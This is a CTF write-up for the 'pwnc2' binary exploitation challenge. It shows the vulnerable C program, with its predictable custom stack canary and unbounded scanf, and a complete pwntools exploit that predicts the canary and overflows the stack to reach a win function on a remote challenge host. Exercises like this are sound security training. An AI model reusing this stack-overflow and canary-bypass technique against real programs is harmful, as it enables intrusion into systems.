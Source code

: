 ```yaml
---
description: Binary Exploitation
---
```


# pwnc2

> A vulnerable program could you lead to the flag.
>
> By: @4nimanegra

{% file src="../../.gitbook/assets/pwn (1)" %}

{% file src="../../.gitbook/assets/pwn (1).c" %}

```
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

This challenge uses a custom canary with a predictable RNG seed, as shown below:

```c
void main(){

	setbuf(stdout,0);

	mastercanary=random();

	pwnme();

}

void pwnme(){

	int canary=mastercanary;
	char name[32];
	char surname[32];

	printf("Insert your name: ");

	scanf("%s",name);

	printf("Welcome home ");
	printf(name);
	printf("\n");

	printf("Insert your surname: ");

	scanf("%s",surname);

	srand(mastercanary);

	if(canary != rand()){

		exit(0);

	}

}
```

The master canary gets one random call, and then the seed is set up as the master canary, and one more random call is used for the final canary. Using the same variable overwrite from pwnc1 I was able to make a script to automatically calculate the canary and overwrite the variable with the correct canary, then be able to return to the win function.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# -*- template: winterbitia -*-

# ====================
# -- PWNTOOLS SETUP --
# ====================

from pwn import *
from ctypes import CDLL

exe = context.binary = ELF(args.EXE or 'pwn')
trm = context.terminal = ['tmux', 'splitw', '-h']

host = args.HOST or '130.206.158.146'
port = int(args.PORT or 42012)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
b *pwnme+176
continue
'''.format(**locals())

# =======================
# -- EXPLOIT GOES HERE --
# =======================

io = start()

libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
mastercanary = libc.random()
log.info(f'Master canary: {mastercanary}')
libc.srand(mastercanary)
canary = libc.rand()
log.info(f'Canary: {canary}')
log.info(f'Canary in hex: {hex(canary)}')

log.info(io.clean())
io.sendline(b'winter')
log.info(io.clean())
payload = flat(
    76 * b'A',
    canary,
    4 * b'B',
    0x000000000040114f, # ret
    0x00000000004011d6, # win
)

io.sendline(payload)
log.info(io.clean())

io.interactive()
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>
